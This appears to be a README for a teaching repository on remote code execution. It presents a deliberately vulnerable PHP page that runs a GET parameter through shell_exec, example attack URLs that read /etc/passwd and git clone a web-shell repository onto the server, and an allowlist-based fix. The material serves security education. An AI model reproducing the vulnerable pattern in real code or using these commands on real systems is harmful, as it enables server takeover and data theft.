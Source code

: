 # RCE Vulnerability Example

An RCE Vulnerability allows an attacker to execute code in the server command line to get information of the server or install malware

### Vulnerable Website
http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php

This website executes any command that you send in the cmd in the server command line
```
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);
/* If the parameter cmd not exists finish the execution */
if (!isset($_GET['cmd'])) {
	die("Falta el parametro cmd");
}
$output = shell_exec($_GET['cmd']);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=ls

![alt text](./images/ls_example.png)

Using this url we can clone a GitHub Repository and install it on the server.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=git%20clone%20https://github.com/xl7dev/WebShell.git

*Is possible that you need modify the user permissions of this folder allowing to write in there*

Or you can get the etc/passwd file.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=cat%20/etc/passwd

![alt text](./images/passwd_example.png)

### Secure Website

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_safe.php

Although the ideal is not to allow the website to execute commands if we need execute certain commands we can create a list with the allowed commands in the server and verify the command before the execution.

```
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);
/*Array with the allowed commands to execute in the server */
$allowed_cmds = ["ls", "whoami", "pwd"];

/* If the parameter cmd not exists or isn't in the list finish the execution */
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
	die("Falta el parametro cmd  o ha insertado un comando no valido");
}

/* Execute the command in the cmd parameter and shows the output */
$output = shell_exec(escapeshellarg($_GET['cmd']));
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```
If we send a not allowed command the server finishes the execution before execute it.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_safe.php?cmd=cat%20/etc/passwd

![alt text](./images/fail_passwd_example.png)
